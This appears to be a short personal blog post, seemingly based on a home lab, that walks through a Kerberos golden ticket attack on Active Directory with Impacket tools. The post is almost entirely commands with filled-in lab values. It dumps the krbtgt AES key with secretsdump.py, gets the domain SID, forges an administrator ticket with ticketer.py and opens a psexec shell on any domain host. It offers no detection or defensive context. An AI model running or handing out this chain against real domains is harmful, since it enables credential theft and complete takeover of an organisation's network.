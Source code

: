 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<h4> Use secretsdump.py to obtain the aes256 key for the krbtgt account </h4> <br>

``` secretsdump.py domain/user:password dc-ip ``` <br>

``` secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>


<h4> Use lookupsid.py to find the domain SID </h4> <br>

``` Lookupsid.py <domain>/<user>:<password> <dc-ip> ``` <br>

``` Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250 ``` <br>

<h4> Use ticketer.py to create TGT </h4> <br>

``` ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username ``` <br>

``` ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator ``` <br>
  
<h4> Export KRB5CCNAME to created ticket location </h4> <br>

``` export KRB5CCNAME=/home/kali/Documents/administrator.ccache ``` <br>

<h4> Use psexec to obtain a shell on any machine in the domain </h4> <br>

``` psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k ``` <br>

``` psexec.py home.local/administrator@TargetPC.home.local -no-pass -k ``` <br>

